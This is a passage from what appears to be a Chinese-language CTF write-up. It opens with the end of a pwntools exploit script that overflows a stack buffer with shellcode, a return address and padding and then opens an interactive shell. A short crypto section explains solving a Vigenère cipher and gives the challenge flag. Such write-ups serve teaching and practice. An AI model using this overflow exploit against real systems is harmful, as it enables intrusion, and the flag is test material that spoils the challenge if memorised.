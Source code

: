 ```python pwn3.py
	ecx_addr = numpy.int32(temp[3] + 0x18)
	log.info("buffer address: "+hex(buf_addr&0xffffffff))
	log.info("ecx address: "+hex(ecx_addr&0xffffffff))

	# restore stack
	for c in reversed(temp):
		r.recvuntil("4. exit\n")
		push(r, c)

	# shellcode
	for c in payload:
		r.recvuntil("4. exit\n")
		push(r, c)

	# padding
	for i in xrange(8, 23):
		r.recvuntil("4. exit\n")
		push(r, 1)

	# important address for ecx
	r.recvuntil("4. exit\n")
	push(r, ecx_addr)

	# padding
	for i in xrange(24, 29):
		r.recvuntil("4. exit\n")
		push(r, 1)

	# return address
	r.recvuntil("4. exit\n")
	push(r, buf_addr)

	# invoke BOF
	r.recvuntil("4. exit\n")
	r.sendline("4")

	r.interactive()

```

# CRYPTO
## CRYPTO1
給了一個 vigenere.txt，很明顯的就是要我們解 [Vigenère cipher](https://en.wikipedia.org/wiki/Vigen%C3%A8re_cipher)
秉持著懶人懶到底的精神
直接 google "vigenere cipher decoder"，找到了一堆網站
通通丟進去解，接著開始拼拼湊湊( 總不可能解完整 )
最後靠著 [這個](http://www.mygeocachingprofile.com/codebreaker.vigenerecipher.aspx) 還有 [這個](https://f00l.de/hacking/vigenere.php) 推出 key 的位置在 `http://ctf.ais3.org/files/thekeyofvigenerehahaha.txt`
進去之後就是 flag 了
flag:`AIS3{i_am_scared_of_you}`
